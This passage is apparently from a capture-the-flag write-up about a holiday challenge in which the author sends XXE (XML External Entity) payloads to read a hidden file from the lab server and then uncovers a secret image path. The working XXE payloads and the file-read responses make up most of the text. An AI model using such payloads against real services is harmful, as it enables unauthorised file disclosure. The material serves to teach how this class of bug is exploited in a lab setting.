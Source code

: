 This response includes a link to an image:

![](images/glamtariels_fountain/redring.png)

We can see that there is something written on the ring. Zooming in, we can read the following:

`goldring_to_be_deleted.txt`

Let's put that in our XXE payload and see what we get!

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
   <imgDrop>&xxe;</imgDrop>
   <reqType>xml</reqType>
   <who>princess</who>
</root>
```

```
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

Now this doesn't give us any directly helpful information, but I noticed the word REQ was capitalized, meaning it is probably another hint. After a lot of trial and error (and a small hint) I realized that REQ, was hinting towards the reqType field in the request body. Once realizing this, I tried adding my XXE entity to that field instead of the img field.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
   <imgDrop>img1</imgDrop>
   <reqType>&xxe;</reqType>
   <who>princess</who>
</root>
```

```
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```
